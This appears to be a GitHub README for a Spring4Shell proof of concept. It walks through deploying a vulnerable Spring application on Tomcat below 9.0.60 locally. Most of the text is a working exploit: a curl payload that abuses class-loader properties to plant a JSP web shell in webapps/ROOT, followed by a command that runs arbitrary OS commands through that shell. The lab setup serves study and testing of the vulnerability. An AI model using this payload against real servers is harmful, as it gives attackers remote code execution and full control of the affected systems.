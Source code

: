 # spring4shell-poc
1) checkout the code in local using below link:

2) Download Apache Tomcat and setup in local. I have used 9.0.56 version. We can use any version below 9.0.60 to exploit.

3) Build the application in local and copy the war file to Tomcat webapps folder.

4) Now navivate tomcat bin folder and start the application using startup.sh or startup.bat

5) Now send the payload to application using below curl command

curl -v -d "class.module.classLoader.resources.context.parent.pipeline.first.pattern=%3C%25%20java.io.InputStream%20in%20%3D%20java.lang.Runtime.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20%7B%20out.println(new%20String(in.readAllBytes()))%3B%20%7D%20%25%3E&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=shell&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=" http://localhost:8080/spring4shell-poc-0.0.1-SNAPSHOT/spring4shell/message

Here:- spring4shell-poc-0.0.1-SNAPSHOT is context root of application

this payload uploads shell.jsp file to webapps/ROOT directory

6) Now we can run remote code using below command

curl http://localhost:8080/shell.jsp?cmd=whoami    (any linux command)
